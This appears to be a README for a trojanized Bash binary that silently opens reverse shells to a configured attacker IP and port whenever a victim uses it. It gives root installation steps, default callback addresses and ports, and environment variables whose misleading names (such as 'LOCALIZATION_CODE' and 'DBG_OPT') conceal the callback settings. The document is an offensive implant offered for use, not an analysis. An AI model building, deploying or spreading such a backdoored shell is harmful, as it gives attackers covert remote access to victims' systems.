 Modified Bash binary designed to throw reverse shells quickly and often. Configurable through environment variables.

Installation:

Run setup.py (requires root privileges)

Usage:

Simply open up a listener on the port that you designate.
When the victim uses the trojanized bash it will attempt to create a reverse shell.

Default port value: 1410
Default port configured by setup script: 1678
Default IP value: 10.0.4.12
Default IP configured by setup script: 10.0.4.10

Modifications:

Change the following environment variables in either the setup.sh script on on the victim machine.

export VTX_LOG_OPT="10"             ; first octet
export DBG_OPT="0"                  ; second octet
export VTX_SESSION_ID="4"           ; third octet
export VTX_VERSION="10"             ; fourth octet
export LOCALIZATION_CODE="1678"     ; port number
